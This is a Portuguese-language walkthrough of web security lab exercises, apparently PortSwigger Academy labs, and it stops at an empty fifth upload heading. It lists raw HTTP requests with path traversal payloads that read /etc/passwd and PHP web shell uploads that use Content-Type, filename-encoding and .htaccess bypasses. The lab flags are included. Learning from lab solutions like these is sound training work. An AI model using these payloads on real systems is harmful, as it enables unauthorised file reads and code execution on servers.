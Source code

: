 # Exercises

## Directory traversal

### >> 1. File path traversal, simple case
Crie uma requisição GET contendo o caminho do arquivo a ser lido
````http
GET /image?filename=../../../etc/passwd HTTP/1.1
Host: ac611f7c1ebca4cec0b52379003e009f.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 2. File path traversal, traversal sequences blocked with absolute path bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/etc/passwd HTTP/1.1
Host: ac601f011f09bc6dc05120b5004a00fa.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 3. File path traversal, traversal sequences stripped non-recursively
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=....//....//....//....//etc//passwd HTTP/1.1
Host: acb91f041e530947c0f6088a004200cf.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 4. File path traversal, traversal sequences stripped with superfluous URL-decode
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: ace71f641fb2b647c042061a009f000c.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 5. File path traversal, validation of start of path
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
Host: ac161f371e40f5e0c054e80a00050088.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 6. File path traversal, validation of file extension with null byte bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
Host: ac491fa91eae86f5c0c5043900fb008a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````



## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

`Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s`

### >> 2. Web shell upload via Content-Type restriction bypass
Crie um arquivo com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens 

Encaminhe a request para repeater e altera o header de:

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

e acesse o arquivo submetido através do link informado.

`Flag: iiVfQK3LlDuvm0uskl9M2nHoeSEX4JrA`

### >> 3. Web shell upload via path traversal
Crie um arquivo com o conteudo
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

Submeta o arquivo para upload e acesse pelo navegador
````http

------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fwebshell2.php"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="csrf"

D3cLNSSIkUUvvKdxO0LsCy8ryg6CxhH7
------WebKitFormBoundarywl7b3A4o80gjAjZb--
````

`Flag: XkJTTpCMVsexpPb2EkLhZpRnuIhc7D1h`

### >> 4. Web shell upload via extension blacklist bypass

Crie um arquivo .htaccess com permissao de execucao php para shtml
````apache
<Files *.shtml>
ForceType application/x-httpd-php
</Files>
````

Crie um arquivo webshell
````php
<?php echo file_get_contents('/home/carlos/secret'); ?>
````

````htttp
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

<Files *.shtml>
ForceType application/x-httpd-php
</Files>
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundarye3lspOAogkMjAhO7--
````

````http
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="avatar"; filename="webshell.shtml"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundaryid3hJcJV3tX9G7VB--
````

### >> 5. 
